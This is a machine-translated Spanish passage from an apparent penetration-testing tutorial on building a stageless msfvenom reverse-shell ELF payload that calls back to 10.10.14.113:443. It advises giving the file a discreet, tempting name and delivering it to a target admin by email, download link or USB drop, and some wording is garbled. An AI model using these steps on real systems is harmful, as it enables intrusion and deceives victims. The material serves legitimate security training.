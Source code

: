 ```
LHOST=10.10.14.113 LPORT=443

```

Cuando se ejecuta, la carga útil volverá a llamar a la dirección IP especificada (`10.10.14.113`) en el puerto especificado (`443`).

### **Formato para generar carga útil en**

Elaboración de cargas útiles con msfvenom

```
-f elf

```

El`-f`El indicador especifica el formato en el binario generado. En este caso, será un[.elf archivo](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).

### **Producción**

Elaboración de cargas útiles con msfvenom

```
> createbackup.elf

```

Crea el .elf binario y nombra el archivo createBackup. Podemos nombrar este archivo lo que queramos. Idealmente, lo llamaríamos algo discreto y/o algo que alguien estaría tentado a descargar y ejecutar.

---

# **Ejecutar una carga útil sin ciervo**

En este punto, tenemos la carga útil creada en nuestro cuadro de ataque. Ahora tendríamos que desarrollar una forma de obtener esa carga útil en el sistema de destino. Hay innumerables formas en que esto se puede hacer. Estas son solo algunas de las formas comunes:

- Mensaje de correo electrónico con el archivo adjunto.
- Descargue el enlace en un sitio web.
- Combinado con un módulo de exploit de MetaSploit (esto probablemente requeriría que ya estemos en la red interna).
- A través de la unidad flash como parte de una prueba de penetración en el sitio.

Una vez que el archivo esté en ese sistema, también deberá ejecutarse.

Imagine por un momento: la máquina de destino es un cuadro Ubuntu que un administrador de TI utiliza para administrar dispositivos de red (alojamiento de scripts de configuración, acceso a enrutadores e conmutadores, etc.). Podríamos hacer que hagan clic en el archivo en un correo electrónico que enviamos porque usaban descuidadamente este sistema como si fuera una computadora personal o una estación de trabajo.

### **Carga útil de Ubuntu**
